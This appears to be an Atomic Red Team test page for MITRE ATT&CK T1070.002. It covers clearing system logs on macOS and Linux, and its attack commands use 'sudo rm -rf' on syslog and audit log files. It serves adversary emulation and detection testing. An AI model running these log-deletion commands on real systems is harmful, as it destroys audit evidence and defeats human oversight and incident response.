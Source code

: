 ```yaml
---
tags: [T1070_002, atomic_test]
filename: "[[T1070.002 - Indicator Removal on Host- Clear FreeBSD, Linux or Mac System Logs]]"
---
```

# T1070.002 - Indicator Removal on Host: Clear FreeBSD, Linux or Mac System Logs

## Atomic Test #1 - rm -rf
Delete system and audit logs

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 989cc1b1-3642-4260-a809-54f9dd559683





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| syslog_path | path of syslog file to delete. On macos it's /var/log/system.log*, on linux, it's /var/log/syslog*. Also note for File events, that on macos, /var/ is a link to /private/var/. | string | /var/log/system.log|
| macos_audit_path | path of audit file to delete | string | /var/audit/20220725213300.202208110700021|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo rm -rf #{syslog_path}
if [ -d /var/audit ] ; then sudo rm -rf #{macos_audit_path} ; fi
```




#### Dependencies:  Run with `sh`!
##### Description: target files must exist
##### Check Prereq Commands:
```sh
if [ -d /var/audit ] ; then stat #{macos_audit_path} ; fi && stat #{syslog_path}
```
##### Get Prereq Commands:
```sh
touch #{syslog_path}
if [ -d /var/audit ] ; then touch #{macos_audit_path} ; fi
```



